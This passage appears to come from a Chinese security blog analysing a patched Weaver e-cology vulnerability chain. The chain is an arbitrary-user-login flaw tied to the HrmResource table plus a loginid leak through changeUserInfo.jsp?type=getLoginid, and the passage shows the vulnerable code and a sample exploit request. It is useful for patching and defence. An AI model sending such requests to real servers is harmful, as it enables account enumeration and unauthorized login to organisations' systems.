 ![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVgUyFfE1kRjc9DQssCcdhSQvkwpMmciasPvlE8BYnly5kIPEBXn8JQOJMVicJFeObk3OwyaibluVEbQ/640?wx_fmt=png "")  
  
登入系统后台新建一名人员，再看 HrmResource表发生的变化。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVgUyFfE1kRjc9DQssCcdhS1O0uKQTIWKsrsC63KLbOvxtFJzMsAaCcPPkTTBWA1N7iaSQrGAhVaTQ/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVgUyFfE1kRjc9DQssCcdhSDp6RPyfOkOiaE7ENFmNeqHgK8R9ZT84sQbB4H7YXs8zTzkAF6W66GBQ/640?wx_fmt=png "")  
  
如上图，其中 status字段代表的是人员的状态，有试用/正式/临时三种状态，显然 1对应的是正式状态，只要满足这个值小于4即可。  
```
rs.executeQuery("select * from HrmResource where loginid = ? and status < 4 ", receiver);
```  
  
那么现在 HrmResource表不为空，只要当 receiver变量值为 "user1"，便能够对应上 HrmResource表中的 loginid字段的值，最终就能够成功地实现任意用户登录。  
### 信息泄漏分析  
  
通过如上的任意用户登录漏洞分析，可以明白该漏洞的利用条件是，需要已知一个存在于 HrmResource表中的 loginid。接下来来看 /mobile/plugin/changeUserInfo.jsp文件以做进一步的 loginid信息泄漏漏洞分析。  
  
根据补丁代码，快速定位到存在问题的代码。如下，当 type等于 "getLoginid"时。  
```
String type = Util.null2String(fu.getParameter("type"));
String mobile = Util.null2String(fu.getParameter("mobile"));

// ...

if ("getLoginid".equalsIgnoreCase(type)){
  String loginId = "";
  RecordSet rs = new RecordSet();
  String sql = "select count(LOGINID) count from HRMRESOURCE where mobile like ?";
  rs.executeQuery(sql,"%"+mobile+"%");
  if(rs.next()){
    int count = Util.getIntValue(rs.getString("count"),0);
    if(count == 0){
      result.put("status", "-1");
    } else if(count >1){
      result.put("status", "0");
    } else if(count == 1){
      result.put("status", "1");
      RecordSet rs1 = new RecordSet();
      String sql1 = "select LOGINID from HRMRESOURCE where mobile like ?";
      rs1.executeQuery(sql1,"%"+mobile+"%");
      if(rs1.next()){
        result.put("loginId", rs1.getString("LOGINID"));
      }
    }
  }
}
```  
  
查询时使用了 %，可以模糊匹配 mobile，当查询出的结果条数为0时，返回 {"status":"-1"}。  
```
GET /mobile/plugin/changeUserInfo.jsp?type=getLoginid&mobile=1234 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Connection: close
```  
```
HTTP/1.1 200 OK
Server: WVS
Cache-Control: private
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1
X-UA-Compatible: IE=8
Set-Cookie: ecology_JSessionid=aaa18FCpyjT4M7qjA1VCy; path=/
```